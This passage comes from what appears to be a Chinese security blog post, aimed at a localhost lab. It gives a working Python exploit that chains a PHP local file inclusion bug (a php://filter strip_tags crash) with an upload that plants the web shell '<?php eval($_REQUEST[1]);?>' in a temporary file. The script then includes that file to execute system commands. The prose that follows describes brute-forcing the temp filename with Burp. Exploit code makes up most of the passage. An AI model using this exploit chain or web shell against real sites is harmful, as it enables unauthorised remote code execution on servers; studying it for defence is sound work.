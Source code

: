 ```cobol
# -*- coding: utf-8 -*-
import re
import requests
from io import BytesIO
 
# 定义漏洞URL和文件路径
vul_url = "http://localhost/index.php?file=php://filter/string.strip_tags/resource=C:/Windows/win.ini"
url2 = "http://localhost/dir.php"
 
# 构建文件
files = {'file': BytesIO('<?php eval($_REQUEST[1]);?>')}
 
# 发送漏洞利用请求
req = requests.post(url=vul_url, files=files, allow_redirects=False)
req2 = requests.get(url=url2)
# 获取临时文件名
content1 = re.search(r"php[a-zA-Z0-9]{1,}.tmp", req2.content).group(0)
 
# 构建获取目录列表的URL
url3 = "http://localhost/index.php?file=C:/Windows/{}".format(content1)
 
# 构建命令
data = {
    1: "system('dir');"
}
 
# 发送获取目录列表的请求
req3 = requests.post(url=url3, data=data)
 
# 输出结果
print u"目录列表：\n{}".format(req3.text)
```

这个代码确实写的恶心了点 。。。。。

但是执行了命令

<img src="https://i-blog.csdnimg.cn/blog_migrate/2593181354ae7727af81c36d254ae79f.png" alt="" style="max-height:277px; box-sizing:content-box;" />


这里条件其实还是有点苛刻 需要dir.php来输出 如果我们不存在呢

其实我们只需要一个文件包含即可 因为我们可以通过爆破/遍历 来实现

我们可以使用工具来直接进行fuzz 我们使用 bp来进行

我本地是 4A41 我们直接bp跑了



<img src="https://i-blog.csdnimg.cn/blog_migrate/8133166bbdcb068e895e5105815de9df.png" alt="" style="max-height:551px; box-sizing:content-box;" />


看看要多久
